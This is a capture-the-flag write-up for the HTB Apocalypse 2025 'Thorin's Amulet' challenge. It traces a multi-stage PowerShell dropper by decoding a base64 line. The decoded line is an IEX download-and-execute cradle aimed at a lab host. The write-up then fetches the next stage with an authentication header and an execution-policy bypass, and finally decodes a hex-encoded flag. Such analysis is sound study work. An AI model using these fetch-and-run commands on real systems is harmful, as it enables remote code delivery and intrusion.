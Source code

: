 # HTB Apocalypse 2025 Writeup: Thorin’s Amulet

In this challenge, we were provided with a powershell script Our objective is to find the flag from the provided script


![Scirpt](images/HTB_Apocalypse/1st_script.png)
> **Figure 1:** First Powershell Script.


Step 1: Analyzing the Given PowerShell Script
There seems to be and encoded command by base64, decoding it revealed the command

 
Decoded command: 
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
This command downloads and executes another PowerShell script (update) from http://korp.htb/update.


Step 2: Fetching the update Script
Since korp.htb needed to resolve correctly, we directly accessed the provided Docker instance at: http://83.136.251.19:48135/update
The downloaded script (update.ps1) contained:

![Script](images/HTB_Apocalypse/2nd_script.png)
> **Figure 2:** Second Powershell Script.

Analysis on the update.ps1 script

1.Fetches another script (a541a.ps1) from http://korp.htb/a541a.

2.Uses a special header (X-ST4G3R-KEY) for authentication. 

3.Executes the downloaded script (a541a.ps1) with Execution Policy Bypassed.
It is concluded that the next step is to retrieve a541a.ps1


Step 3: Fetching a541a.ps1
To retrieve a541a.ps1, ran:
Invoke-WebRequest -Uri "http://83.136.251.19:48135/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -OutFile "a541a.ps1"

![Scirpt](images/HTB_Apocalypse/output_hex.png)
> **Figure 3:** a541 file.

 
The script (a541a.ps1) contained hex-encoded string
Decoding it revealed the flag. Used python for the decoding process
 
![Scirpt](images/HTB_Apocalypse/htbbb.png)
> **Figure 4:** Flag.

